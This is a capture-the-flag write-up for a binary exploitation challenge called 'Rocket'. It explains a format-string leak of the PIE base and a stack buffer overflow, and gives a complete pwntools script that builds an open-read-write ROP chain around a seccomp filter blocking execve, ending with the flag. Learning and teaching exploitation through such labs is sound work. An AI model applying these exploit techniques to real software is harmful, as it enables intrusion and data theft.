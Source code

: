 # Rocket (pwn)

## analysis
As a result of checksec, there is no canary but PIE is enable.  
![sec](img/sec.png)  

Put the binary in ghidra. We can found that there are a lot of ROPgadgets.  

![rdx](img/rdx.png)  
![syscall](img/syscall.png)  
![rax](img/rax.png)

In order to use these gadgets, we have to leak the base address of the binary because of PIE.  
In `secure` function, seccomp is used to forbid `execve` function. Thus we cannot make a plan for `system("/bin/sh")` or `execve("/bin/sh", NULL, NULL)`, use "Open, Read, Write" to obtain the flag instead of those.  
![seccomp](img/seccomp.png)

In vuln function, there are vulnerability for format-sting bug and stack buffer overflow. 
![vuln](img/vuln.png)

# Exploit
The plan for exploit:  
1. Send fsb stiring (`gets`)
2. Leak the elf base. (`printf`)
3. Send ROP payload(`gets`). The plan for ROP is below:
```
read(0, bss+0x200, 8); //flag.txt
fd = open(bss+0x200, RDONLY);
read(3/*hard-coded of fd*/, bss+0x210, 0x100);
write(1, bss+0x210, 0x100);
```
This is my exploit code.
```
def exploit():
    payload = b"%15$p"
    io.sendline(payload)
    io.recvuntil("Welcome: ")
    leak = io.recvline()[0:-1]
    base = int(leak, 16) - (elf.symbols["main"]+24)
    print("elf base: ", hex(base))
    elf.address = base

    mov_rax_rsi = p64(base + 0x14e5)
    pop_rdx = p64(base + 0x14be)
    pop_rsi_r15 = p64(base + 0x1689)
    pop_rdi = p64(base + 0x168b)
    syscall_ret = p64(base + 0x14db)
    
    name = elf.bss() + 0x200
    buf = elf.bss() + 0x210
    

    padding = b'a'*0x48
    payload = padding + \
            pop_rsi_r15 + p64(0) + p64(0) + \
            mov_rax_rsi + \
            pop_rsi_r15 + p64(name) + p64(0) + \
            pop_rdx + p64(8) + \
            pop_rdi + p64(0) + \
            syscall_ret
            #read(0, name, 8)
    payload += pop_rsi_r15 + p64(2) + p64(0) + \
            mov_rax_rsi + \
            pop_rdi + p64(name) + \
            pop_rsi_r15 + p64(0) + p64(0) + \
            syscall_ret
            #open(name, RDONLY)
    payload += pop_rsi_r15 + p64(0) + p64(0) + \
            mov_rax_rsi + \
            pop_rsi_r15 + p64(buf) + p64(0) + \
            pop_rdx + p64(0x100) + \
            pop_rdi + p64(3) + \
            syscall_ret
            #read(3, buf, 0x100)
    payload += pop_rsi_r15 + p64(1) + p64(0) + \
            mov_rax_rsi + \
            pop_rsi_r15 + p64(buf) + p64(0) + \
            pop_rdx + p64(0x100) + \
            pop_rdi + p64(1) + \
            syscall_ret
            #write(1, buf, 0x100)

    io.sendline(payload)
    io.send(b"flag.txt")
```
Flag: `shctf{1-sma11-St3p-f0r-mAn-1-Giant-l3ap-f0r-manK1nd}`

